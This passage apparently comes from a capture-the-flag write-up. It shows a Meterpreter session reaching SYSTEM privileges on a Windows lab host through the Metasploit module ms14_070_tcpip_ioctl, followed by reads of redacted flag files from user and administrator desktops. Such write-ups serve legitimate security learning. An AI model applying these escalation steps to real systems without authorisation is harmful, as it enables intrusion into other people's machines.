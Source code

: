 Now that the exploit was successful, I went back to my meterpreter session and viewed if I had escalated priviliges

```
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > whoami
[-] Unknown command: whoami
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Now, Visiting the user `Harry's` directory and `Admin's` directory, I was able to retrieve the flag.

```
cat "C:\Documents and Settings\Harry\Desktop\user.txt"
[REDACTED]

cat "C:\Documents and Settings\Administrator\Desktop\user.txt"
[REDACTED]
```
